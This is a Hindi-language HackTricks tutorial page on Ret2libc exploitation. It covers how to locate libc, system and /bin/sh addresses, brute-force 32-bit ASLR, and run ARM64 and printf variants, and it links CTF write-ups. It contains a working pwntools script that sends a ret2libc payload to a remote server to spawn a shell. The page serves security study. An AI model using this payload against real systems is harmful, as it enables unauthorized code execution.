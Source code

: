 # Ret2lib

{{#include ../../../banners/hacktricks-training.md}}

## **बुनियादी जानकारी**

**Ret2Libc** का सार यह है कि यह एक कमजोर प्रोग्राम के निष्पादन प्रवाह को एक साझा पुस्तकालय (जैसे, **system**, **execve**, **strcpy**) के भीतर एक फ़ंक्शन की ओर पुनर्निर्देशित करता है, बजाय इसके कि हमलावर द्वारा प्रदान किए गए शेलकोड को स्टैक पर निष्पादित किया जाए। हमलावर एक पेलोड तैयार करता है जो स्टैक पर लौटने के पते को उस पुस्तकालय फ़ंक्शन की ओर इंगित करने के लिए संशोधित करता है, जबकि आवश्यक तर्कों को कॉलिंग कन्वेंशन के अनुसार सही ढंग से सेट करने की व्यवस्था भी करता है।

### **उदाहरण चरण (सरल किया गया)**

- कॉल करने के लिए फ़ंक्शन का पता प्राप्त करें (जैसे system) और कॉल करने के लिए कमांड (जैसे /bin/sh)
- पहले तर्क को कमांड स्ट्रिंग की ओर इंगित करने और फ़ंक्शन के लिए निष्पादन प्रवाह को पास करने के लिए एक ROP श्रृंखला उत्पन्न करें

## पते खोजना

- मान लीजिए कि `libc` जो उपयोग किया जा रहा है वह वर्तमान मशीन से है, आप यह पता लगा सकते हैं कि इसे मेमोरी में कहाँ लोड किया जाएगा:
```bash
ldd /path/to/executable | grep libc.so.6 #Address (if ASLR, then this change every time)
```
यदि आप यह जांचना चाहते हैं कि क्या ASLR libc के पते को बदल रहा है, तो आप कर सकते हैं:
```bash
for i in `seq 0 20`; do ldd ./<bin> | grep libc; done
```
- libc का उपयोग जानने से `system` फ़ंक्शन के लिए ऑफ़सेट ढूंढना भी संभव है:
```bash
readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system
```
- libc का ज्ञान होने पर, यह संभव है कि `/bin/sh` फ़ंक्शन के लिए ऑफ़सेट खोजा जा सके:
```bash
strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh
```
### gdb-peda / GEF का उपयोग करना

libc का ज्ञान होने पर, Peda या GEF का उपयोग करके **system** फ़ंक्शन, **exit** फ़ंक्शन और स्ट्रिंग **`/bin/sh`** का पता लगाना भी संभव है:
```bash
p system
p exit
find "/bin/sh"
```
### /proc/\<PID>/maps का उपयोग करना

यदि प्रक्रिया हर बार जब आप इसके साथ बात करते हैं (नेटवर्क सर्वर) **बच्चे** बना रही है, तो उस फ़ाइल को **पढ़ने** की कोशिश करें (संभवतः आपको रूट होना पड़ेगा)।

यहाँ आप **सटीक रूप से देख सकते हैं कि libc प्रक्रिया के अंदर कहाँ लोड हो रहा है** और **प्रक्रिया के हर बच्चे के लिए कहाँ लोड होने वाला है**।

![](<../../../images/image (853).png>)

इस मामले में यह **0xb75dc000** में लोड हो रहा है (यह libc का बेस पता होगा)

## अज्ञात libc

यह संभव है कि आप **नहीं जानते कि बाइनरी कौन सी libc लोड कर रहा है** (क्योंकि यह एक सर्वर पर हो सकता है जहाँ आपके पास कोई पहुँच नहीं है)। उस मामले में आप **कुछ पते लीक करने के लिए भेद्यता का दुरुपयोग कर सकते हैं और यह पता लगा सकते हैं कि कौन सी libc** लाइब्रेरी का उपयोग किया जा रहा है:


{{#ref}}
rop-leaking-libc-address/
{{#endref}}

और आप इसके लिए एक pwntools टेम्पलेट यहाँ पा सकते हैं:


{{#ref}}
rop-leaking-libc-address/rop-leaking-libc-template.md
{{#endref}}

### 2 ऑफसेट्स के साथ libc जानें

पृष्ठ [https://libc.blukat.me/](https://libc.blukat.me/) की जाँच करें और libc के अंदर फ़ंक्शनों के **कुछ पते** का उपयोग करें ताकि **उपयोग की गई संस्करण** का पता लगाया जा सके।

## 32 बिट्स में ASLR को बायपास करना

ये ब्रूट-फोर्सिंग हमले **केवल 32-बिट सिस्टम के लिए उपयोगी हैं**।

- यदि एक्सप्लॉइट स्थानीय है, तो आप libc के बेस पते को ब्रूट-फोर्स करने की कोशिश कर सकते हैं (32-बिट सिस्टम के लिए उपयोगी):
```python
for off in range(0xb7000000, 0xb8000000, 0x1000):
```
- यदि आप एक दूरस्थ सर्वर पर हमला कर रहे हैं, तो आप **`libc` फ़ंक्शन `usleep` के पते को ब्रूट-फोर्स करने** की कोशिश कर सकते हैं, उदाहरण के लिए 10 को तर्क के रूप में पास करते हुए। यदि किसी बिंदु पर **सर्वर प्रतिक्रिया देने में 10 सेकंड अतिरिक्त लेता है**, तो आपने इस फ़ंक्शन का पता लगा लिया है।

## One Gadget

एक शेल को केवल **एक** विशिष्ट **पते** पर कूदकर निष्पादित करें:


{{#ref}}
one-gadget.md
{{#endref}}

## x86 Ret2lib कोड उदाहरण

इस उदाहरण में ASLR ब्रूट-फोर्स कोड में एकीकृत है और कमजोर बाइनरी एक दूरस्थ सर्वर पर स्थित है:
```python
from pwn import *

c = remote('192.168.85.181',20002)
c.recvline()

for off in range(0xb7000000, 0xb8000000, 0x1000):
p = ""
p += p32(off + 0x0003cb20) #system
p += "CCCC" #GARBAGE, could be address of exit()
p += p32(off + 0x001388da) #/bin/sh
payload = 'A'*0x20010 + p
c.send(payload)
c.interactive()
```
## x64 Ret2lib कोड उदाहरण

उदाहरण देखें:


{{#ref}}
../
{{#endref}}

## ARM64 Ret2lib उदाहरण

ARM64 के मामले में, ret निर्देश उस स्थान पर कूदता है जहाँ x30 रजिस्टर इंगित कर रहा है और न कि जहाँ स्टैक रजिस्टर इंगित कर रहा है। इसलिए यह थोड़ा अधिक जटिल है।

ARM64 में एक निर्देश वही करता है जो निर्देश करता है (निर्देशों के बीच में कूदना और उन्हें नए में बदलना संभव नहीं है)।

उदाहरण देखें:


{{#ref}}
ret2lib-+-printf-leak-arm64.md
{{#endref}}

## Ret-into-printf (या puts)

यह **प्रक्रिया से जानकारी लीक करने** की अनुमति देता है `printf`/`puts` को कुछ विशिष्ट डेटा को तर्क के रूप में पास करके। उदाहरण के लिए, `puts` के GOT के पते को `puts` के निष्पादन में डालने से **मेमोरी में `puts` का पता लीक होगा**।

## Ret2printf

इसका मूलतः मतलब है **Ret2lib का दुरुपयोग करना ताकि इसे `printf` फॉर्मेट स्ट्रिंग्स की भेद्यता में बदल दिया जाए** `ret2lib` का उपयोग करके printf को उन मानों के साथ कॉल करना जो इसका शोषण करते हैं (सुनने में बेकार लगता है लेकिन संभव है):


{{#ref}}
../../format-strings/
{{#endref}}

## अन्य उदाहरण और संदर्भ

- [https://guyinatuxedo.github.io/08-bof_dynamic/csaw19_babyboi/index.html](https://guyinatuxedo.github.io/08-bof_dynamic/csaw19_babyboi/index.html)
- Ret2lib, libc में एक फ़ंक्शन के पते को लीक करने के लिए, एक गेजेट का उपयोग करना
- [https://guyinatuxedo.github.io/08-bof_dynamic/csawquals17_svc/index.html](https://guyinatuxedo.github.io/08-bof_dynamic/csawquals17_svc/index.html)
- 64 बिट, ASLR सक्षम लेकिन कोई PIE नहीं, पहला कदम ओवरफ्लो को भरना है जब तक कि कैनरी का बाइट 0x00 न हो जाए, फिर puts को कॉल करें और इसे लीक करें। कैनरी के साथ एक ROP गेजेट बनाया जाता है जो puts को कॉल करता है ताकि GOT से puts का पता लीक हो सके और फिर `system('/bin/sh')` को कॉल करने के लिए एक ROP गेजेट।
- [https://guyinatuxedo.github.io/08-bof_dynamic/fb19_overfloat/index.html](https://guyinatuxedo.github.io/08-bof_dynamic/fb19_overfloat/index.html)
- 64 बिट, ASLR सक्षम, कोई कैनरी नहीं, मुख्य से एक चाइल्ड फ़ंक्शन में स्टैक ओवरफ्लो। GOT से puts का पता लीक करने के लिए puts को कॉल करने के लिए ROP गेजेट और फिर एक गेजेट को कॉल करें।
- [https://guyinatuxedo.github.io/08-bof_dynamic/hs19_storytime/index.html](https://guyinatuxedo.github.io/08-bof_dynamic/hs19_storytime/index.html)
- 64 बिट, कोई pie नहीं, कोई कैनरी नहीं, कोई relro नहीं, nx। लिखने के फ़ंक्शन का उपयोग करके लिखने के पते को लीक करता है (libc) और एक गेजेट को कॉल करता है।
- [https://guyinatuxedo.github.io/14-ret_2_system/asis17_marymorton/index.html](https://guyinatuxedo.github.io/14-ret_2_system/asis17_marymorton/index.html)
- स्टैक से कैनरी को लीक करने के लिए एक फॉर्मेट स्ट्रिंग का उपयोग करता है और सिस्टम में कॉल करने के लिए एक बफर ओवरफ्लो (यह GOT में है) के साथ `/bin/sh` के पते के साथ।
- [https://guyinatuxedo.github.io/14-ret_2_system/tu_guestbook/index.html](https://guyinatuxedo.github.io/14-ret_2_system/tu_guestbook/index.html)
- 32 बिट, कोई relro नहीं, कोई कैनरी नहीं, nx, pie। स्टैक से libc और heap के पते को लीक करने के लिए एक खराब इंडेक्सिंग का दुरुपयोग करें। `system('/bin/sh')` को कॉल करने के लिए ret2lib का दुरुपयोग करें (heap का पता एक जांच को बायपास करने के लिए आवश्यक है)।

{{#include ../../../banners/hacktricks-training.md}}
